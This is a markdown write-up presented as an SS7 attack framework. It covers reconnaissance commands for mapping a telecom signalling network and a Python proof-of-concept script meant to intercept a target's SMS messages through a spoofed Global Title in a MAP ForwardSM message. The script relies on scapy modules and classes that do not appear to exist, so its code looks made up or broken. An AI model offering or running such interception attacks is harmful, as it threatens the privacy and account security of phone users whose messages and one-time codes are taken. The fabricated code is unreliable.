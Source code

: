 
## 1. Introduction
The SS7 (Signaling System No. 7) protocol is a critical component of telecommunications networks, enabling various services such as SMS, call setup, and location tracking. Due to its design, SS7 is susceptible to various attacks that can compromise user privacy and network security. This suite provides a comprehensive framework for identifying, exploiting, and mitigating SS7 vulnerabilities.

---

## 2. Reconnaissance & Attack Surface Mapping

### 2.1 SS7 Protocol Analysis
- **Objective**: Analyze SS7 traffic to identify potential vulnerabilities.
- **Tools**: Wireshark with SS7 dissectors.
- **Capture Traffic**:
  ```bash
  tshark -i any -Y "sccp" -V
  ```

### 2.2 Network Component Discovery
- **SS7 Mapping Tool**: Use `ss7maper` to discover network components.
- **Command**:
  ```bash
  ./ss7maper -i <interface> -mcc <mcc> -mnc <mnc>
  ```
- **Output**: Identify Signal Transfer Points (STPs), Service Control Points (SCPs), and Home Location Registers (HLRs).

---

## 3. Attack Vector Analysis & Proof of Concepts (POCs)

### 3.1 SMS Interception
- **Mechanism**: Exploit the MAP ForwardSM to intercept SMS messages.

#### POC Script:
```python
from scapy.layers.ss7 import *
from scapy.all import send

target_msisdn = "<target_msisdn>"
attacker_gt = "<attacker_gt>"  # Spoofed Global Title

# Construct the ForwardSM message
fwd_sm = MAP_FwdSM(
    sMSCAddress=GlobalTitle(tt=1, np=1, nai=4, gti=0, digits=attacker_gt),
    serviceCentreAddress=ISDN_Address(nature=3, plan=1, digits="<smsc_number>"),
    msisdn=target_msisdn
)

# Send the crafted message
send(fwd_sm, iface="<interface>", verbose=1)
```
